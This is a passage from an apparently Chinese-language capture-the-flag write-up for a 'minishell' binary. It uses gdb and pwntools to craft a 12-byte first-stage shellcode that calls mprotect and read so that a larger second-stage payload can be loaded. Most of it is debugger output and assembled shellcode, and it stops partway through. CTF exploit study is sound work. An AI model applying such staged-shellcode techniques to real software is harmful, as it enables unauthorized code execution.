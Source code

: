 首先利用12字節構造一個可進一步開展工作的shellcode，基本思想是12字節的shellcode明顯不夠用於取得flag，那麼首先用這個shellcode來注入更大的shellcode。
```gdb
$ gdb ./minishell -ex 'r'
gef➤  start
[+] Breaking at entry-point: 0x5555555549b0
gef➤  b mmap
gef➤  c
Continuing.
[#0] Id 1, Name: "minishell", stopped, reason: BREAKPOINT
─────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x7ffff7c92c10 → __GI___mmap64(addr=0x0, len=0x1000, prot=0x7, flags=0x22, fd=0x0, offset=0x0)
[#1] 0x555555554c5e → mov QWORD PTR [rbp-0x8], rax
[#2] 0x7ffff7bc2b17 → __libc_start_main(main=0x555555554bee, argc=0x1, argv=0x7fffffffd7e8, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7fffffffd7d8)
[#3] 0x5555555549da → hlt
──────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  fin
gef➤  p/x $rax
$2 = 0x7ffff7fcf000
gef➤  c
Continuing.
So what? 1
Executing...!

Program received signal SIGSEGV, Segmentation fault.
0x00007ffff7fcf000 in ?? ()
[ Legend: Modified register | Code | Heap | Stack | String ]
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x0
$rbx   : 0x0
$rcx   : 0x00007ffff7c92d27  →  <mprotect+7> cmp rax, 0xfffffffffffff001
$rdx   : 0x5
$rsp   : 0x00007fffffffd6e0  →  0x00007fffffffd7e8  →  0x00007fffffffdc3a  →  "/home/lj/download/minishell"
$rbp   : 0x00007fffffffd700  →  0x0000555555554cf0  →   push r15
$rsi   : 0x1000
$rdi   : 0x00007ffff7fcf000  →  0x0000000000000a31 ("1"?)
$rip   : 0x00007ffff7fcf000  →  0x0000000000000a31 ("1"?)
$r8    : 0x6
$r9    : 0x0
$r10   : 0x1
...
```
首先應該運行mprotect(buf, 0x1000, 7)爲buf恢復W權限。注意到程序執行到shellcode時，rdi和rsi都已經是對的值了，只需要設置rdx=7即可。
```python
In [35]: import pwn
In [36]: pwn.context.arch = 'amd64'; pwn.context.os = 'linux'
In [37]: a = pwn.asm('mov rax, 10; mov rdx, 7; syscall'); a, len(a)
Out[37]: ('H\xc7\xc0\n\x00\x00\x00H\xc7\xc2\x07\x00\x00\x00\x0f\x05', 16)
In [38]: a = pwn.asm('add al, dl; mov dl, 7; syscall'); a, len(a)
Out[38]: ('\x00\xd0\xb2\x07\x0f\x05', 6)
```
用去了6字節，還剩6字節。要運行read(0, buf, size)
對比：
```
mprotect成功返回時: rax=0, rdi=buf, rsi=0x1000, rdx=7
read(0, buf, size): rax=0, rdi=0,   rsi=buf,    rdx=size
```
嘗試過程：
```python
In [53]: a = pwn.asm('mov al, 10; mov dl, 7; syscall; mov rsi, rdi; mov rdi, rax; syscall'); a, len(a)
Out[53]: ('\xb0\n\xb2\x07\x0f\x05H\x89\xfeH\x89\xc7\x0f\x05', 14)
```